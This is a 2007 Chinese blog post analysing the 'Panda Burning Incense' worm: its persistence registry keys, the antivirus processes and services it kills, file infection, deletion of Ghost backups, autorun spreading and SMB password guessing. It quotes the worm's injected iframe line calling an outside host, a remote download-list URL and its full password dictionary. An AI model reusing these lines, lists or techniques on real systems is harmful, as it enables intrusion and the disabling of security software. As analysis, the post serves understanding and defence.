 ```yaml
---
author: amosk
comments: true
date: 2007-06-22 06:36:24+00:00
layout: post
slug: '44'
title: 熊猫烧香原理
wordpress_id: 44
categories:
- Computer
- Web
---
```


今天下了一个Dephli(带注册机)安装程序和基础教程Pdf,顺便了解了一下熊猫烧香^_^(原代码居然贴不到博客里,强!不过网上随便就可以搜到)

毒名称：Worm.WhBoy.h
病毒中文名：熊猫烧香(武汉男生)

病毒类型：蠕虫

危险级别：★★★★★

影响平台：Win 9x/ME,Win 2000/NT,Win XP,Win 2003

病毒描述：

“武汉男生”，俗称“熊猫烧香”，这是一个感染型的蠕虫病毒，它能感染系统中exe，com，pif，src，html，asp等文件，它还能中止大量的反病毒软件进程并且会删除扩展名为gho的文件，该文件是一系统备份工具GHOST的备份文件，使用户的系统备份文件丢失。被感染的用户系统中所有.exe可执行文件全部被改成熊猫举着三根香的模样。

<!-- more -->

1:拷贝文件

病毒运行后,会把自己拷贝到C:\WINDOWS\System32\Drivers\spoclsv.exe

2:添加注册表自启动

病毒会添加自启动项HKEY_CURRENT_USER\Software\Microsoft\Windows\
CurrentVersion\Run svcshare -> C:\WINDOWS\System32\Drivers\spoclsv.exe

3:病毒行为

a:每隔1秒寻找桌面窗口,并关闭窗口标题中含有以下字符的程序：

QQKav、QQAV、防火墙、进程、VirusScan、网镖、杀毒、毒霸、瑞星、江民、黄山IE、超级兔子、优化大师、木马克星、木马清道夫、QQ病毒、注册表编辑器、系统配置实用程序、卡巴斯基反病毒、Symantec AntiVirus、Duba、esteem proces、绿鹰PC、密码防盗、噬菌体、木马辅助查找器、System Safety Monitor、Wrapped gift Killer、Winsock Expert、游戏木马检测大师、msctls_statusbar32、pjf(ustc)、IceSword

并使用的键盘映射的方法关闭安全软件IceSword

添加注册表使自己自启动 HKEY_CURRENT_USER\Software\Microsoft\Windows\
CurrentVersion\Run svcshare -> C:\WINDOWS\System32\Drivers\spoclsv.exe

并中止系统中以下的进程:

Mcshield.exe、VsTskMgr.exe、naPrdMgr.exe、UpdaterUI.exe、TBMon.exe、scan32.exe、Ravmond.exe、CCenter.exe、RavTask.exe、Rav.exe、Ravmon.exe、RavmonD.exe、RavStub.exe、KVXP.kxp、kvMonXP.kxp、KVCenter.kxp、KVSrvXP.exe、KRegEx.exe、UIHost.exe、TrojDie.kxp、FrogAgent.exe、Logo1_.exe、Logo_1.exe、Rundl132.exe

b:每隔18秒点击病毒作者指定的网页,并用命令行检查系统中是否存在共享，共存在的话就运行net share命令关闭admin$共享

c:每隔10秒下载病毒作者指定的文件,并用命令行检查系统中是否存在共享，共存在的话就运行net share命令关闭admin$共享

d:每隔6秒删除安全软件在注册表中的键值

并修改以下值不显示隐藏文件 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL CheckedValue -> 0x00

删除以下服务:

navapsvc、wscsvc、KPfwSvc、SNDSrvc、ccProxy、ccEvtMgr、ccSetMgr、SPBBCSvc、Symantec Core LC、NPFMntor MskService、FireSvc

e:感染文件

病毒会感染扩展名为exe,pif,com,src的文件,把自己附加到文件的头部，并在扩展名为htm,html, asp,php,jsp,aspx的文件中添加一网址，用户一但打开了该文件，IE就会不断的在后台点击写入的网址，达到增加点击量的目的,但病毒不会感染以下文件夹名中的文件：

WINDOW、Winnt、System Volume Information、Recycled、Windows NT、WindowsUpdate、Windows Media Player、Outlook Express、Internet Explorer、NetMeeting、Common Files、ComPlus Applications、Messenger、InstallShield Installation Information、MSN、Microsoft Frontpage、Movie Maker、MSN Gamin Zone

g:删除文件

病毒会删除扩展名为gho的文件，该文件是一系统备份工具GHOST的备份文件使用户的系统备份文件丢失。

=================================

是一个传染型的DownLoad 使用Delphi编写
该病毒的主要行为:
一.传播
1.本地磁盘感染
病毒对系统中所有除了盘符为A,B的磁盘类型为DRIVE_REMOTE,DRIVE_FIXED的磁盘进行
文件遍历感染注:不感染文件大小超过10485760字节以上的.
(病毒将不感染如下目录的文件):
Microsoft Frontpage
Movie Maker
MSN Gamin Zone
Common Files
Windows NT
Recycled
System Volume Information
Documents and Settings
....
(病毒将不感染文件名如下的文件):
setup.exe
NTDETECT.COM
病毒将使用两类感染方式应对不同后缀的文件名进行感染
1.二进制可执行文件(后缀后为:EXE,SCR,PIF,COM)
将感染目标文件和病毒溶合成一个文件(被感染文件贴在病毒文件尾部)完成感染.
2.脚本类(后缀名为:htm,html,asp,php,jsp,aspx)
在这些脚本文件尾加上如下链接(下边的页面存在安全漏洞):
<iframe src=http://www.krvkr.com/worm.htm width=height=0></iframe>
在感染时会删除这些磁盘上的后缀名为.GHO
2.生成autorun.inf
病毒建立一个计时器以,6秒为周期在磁盘的根目录下生成
setup.exe(病毒本身) autorun.inf 并利用AutoRun Open关联
使病毒在用户点击被感染磁盘时能被自动运行.
3.局域网传播
病毒生成随机几个局域网传播线程实现如下的传播方式:
当病毒发现能成功联接攻击目标的139或445端口后,将使用内置的一个用户列表及密码字典
进行联接.(猜测被攻击端的密码)当成功的联接上以后将自己复制过去并利用计划任务
启动激活病毒.
被尝试猜测密码的账户号为:
Administrator
Guest
admin
Root
用来进行密码尝试的字典为:
1234
password
6969
harley
123456
golf
pussy
mustang
1111
shadow
1313
fish
5150
7777
qwerty
baseball
2112
letmein
mein
12345678
12345
admin
5201314
qq520
1234567
123456789
654321
54321
000000
11111111
88888888
pass
passwd
database
abcd
abc123
sybase
123qwe
server
computer
super
123asd
ihavenopass
godblessyou
enable
2002
2003
2600
alpha
111111
121212
123123
1234qwer
123abc
patrick
administrator
ator
root
fuckyou
fuck
test
test123
temp
temp123
asdf
qwer
yxcv
zxcv
home
owner
login
Login
pw123
love
mypc
mypc123
admin123
mypass
mypass123
901100
二.修改操作系统的启动关联
病毒会将自己复制到%SYSTEM32%\DRIVERS\目录下文件名为:spcolsv.exe将以
1秒钟为周期不断设置如下键值:
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
svcshare=%病毒文件路径%
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL
CheckedValue=0
三.下载文件启动
病毒会以20分钟为周期尝试读取特定网站上的下载文件列表
如:http://wangma.9966.org/down.txt
并根据文件列表指定的文件下载,并启动这些程序.
四.与杀毒软件对抗
1.关闭包含以下字符串的窗口：
防火墙
VirusScan
NOD32
网镖
杀毒
毒霸
瑞星
超级兔子
优化大师
大师
木马清道夫
木馬清道夫
卡巴斯基反病毒
Symantec AntiVirus
Duba
esteem procs
绿鹰PC
密码防盗
噬菌体
木马辅助查找器
System Safety Monitor
Wrapped gift Killer
Winsock Expert
游戏木马检测大师
超级巡警
IceSword
2.结束以下进程：
Mcshield.exe
VsTskMgr.exe
naPrdMgr.exe
UpdaterUI.exe
TBMon.exe
scan32.exe
Ravmond.exe
CCenter.exe
RavTask.exe
Rav.exe
Ravmon.exe
RavmonD.exe
RavStub.exe
KVXP.kxp
KvMonXP.kxp
KVCenter.kxp
KVSrvXP.exe
KRegEx.exe
UIHost.exe
TrojDie.kxp
FrogAgent.exe
Logo1_.exe
Logo_1.exe
Rundl132.exe
regedit.exe
msconfig.exe
taskmgr.exe
3.关闭并删除以下服务：
Schedule
sharedaccess
RsCCenter
RsRavMon
RsCCenter
KVWSC
KVSrvXP
kavsvc
AVP
McAfeeFramework
McShield
McTaskManager
navapsvc
wscsvc
KPfwSvc
SNDSrvc
ccProxy
ccEvtMgr
ccSetMgr
SPBBCSvc
Symantec Core LC
NPFMntor
MskService
FireSvc
注:
因为该病毒会感染系统的htm,html,asp,php,jsp,aspx等文件,并在其中加入有利用安全漏洞进行
病毒传播的链接.如果一台服务器被感染将大大增加病毒传播的范围.

参考资料:[http://hi.baidu.com/bingduking/blog/item/8d2b9c44f443804c510ffeb0.html](http://hi.baidu.com/bingduking/blog/item/8d2b9c44f443804c510ffeb0.html)

[http://www.stubhub.com/mlb-tickets/](http://www.stubhub.com/mlb-tickets/)
